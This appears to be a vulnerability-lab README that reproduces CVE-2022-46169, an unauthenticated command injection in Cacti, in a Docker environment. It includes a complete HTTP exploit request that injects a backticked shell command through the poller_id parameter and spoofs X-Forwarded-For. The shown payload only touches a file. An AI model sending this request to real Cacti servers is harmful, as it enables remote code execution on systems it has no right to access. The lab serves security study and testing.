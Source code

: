 # Cacti Unauthenticated Command Injection (CVE-2022-46169)

[中文版本(Chinese version)](README.zh-cn.md)

Cacti is a robust and extensible operational monitoring and fault management framework for users around the world. A command injection vulnerability allows an unauthenticated user to execute arbitrary code on a server running Cacti prior from version 1.2.17 to 1.2.22, if a specific data source was selected for any monitored device.

References:

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf>
- <https://mp.weixin.qq.com/s/6crwl8ggMkiHdeTtTApv3A>

## Vulnerability Environment

Execute following command to start a Cacti server 1.2.22:

```
docker compose up -d
```

After the server is started, you will see the login page at `http://localhost:8080`.

Then login as admin/admin, follow the instructions to initialize the application. Actually, just click the "next button" again and again before you see the success page.

![](1.png)

Before you can exploit this vulnerability, you have to add a new "Graph" because the command injection is occurred not in the default graph type:

![](2.png)

Select the graph type "Device - Uptime", and click the "Create" button:

![](3.png)

## Exploit

After complete the above initialization, you will change your role to a attacker. Just send following request to Cacti server to trigger the command injection attack:

```
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`touch+/tmp/success` HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost.lan
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

![](4.png)

Although no command result in the response, you can find the `/tmp/success` has been touched successfully.

![](5.png)
